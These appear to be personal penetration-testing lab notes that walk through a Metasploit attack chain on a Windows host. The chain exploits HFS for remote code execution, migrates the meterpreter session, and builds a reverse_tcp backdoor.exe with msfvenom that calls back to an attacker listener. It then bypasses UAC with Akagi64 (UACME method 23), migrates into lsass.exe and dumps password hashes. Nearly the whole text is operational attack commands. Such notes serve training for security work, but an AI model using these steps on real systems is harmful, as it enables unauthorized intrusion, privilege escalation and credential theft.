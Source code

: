 search for hfs in msfconsole  RCE 


meterpter 
- pgrep explorer ( to get number)
- migrate (number) Or migrate -N explorer.exe 
- getsystem
- shell
- net localgroup administrator (check if user administrator is memeber of administrator group)
- generate malcious file
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.8.2 LPORT=4444 -f exe > backdoor.exe
- run msfconsole use exploit/multi/handler and run listener
- set payload windows/meterpreter/reverse_tcp

 back to other msf 
- check what dir you are - pwd
- switch to user tmp directory - cd C:\\\\Users\\\\admin\\\\AppData\\\\Local\\\\temp
- upload /root/Desktop/tools/UACME/Akagi64.exe .
- upload /root/backdoor.exe
- Akagi64.exe 23 C:\\\\Users\\\\admin\\\\AppData\\\\Local\\\\temp\\\\backdoor.exe (23 is for bypassing UAC by Akagi64)

back to other msfconsole listener 
- getsystem
- getuid
- ps (to look for process to migrate, NT AUTHORITY/SYSTEM)
- migrate lsass.exe
- hashdump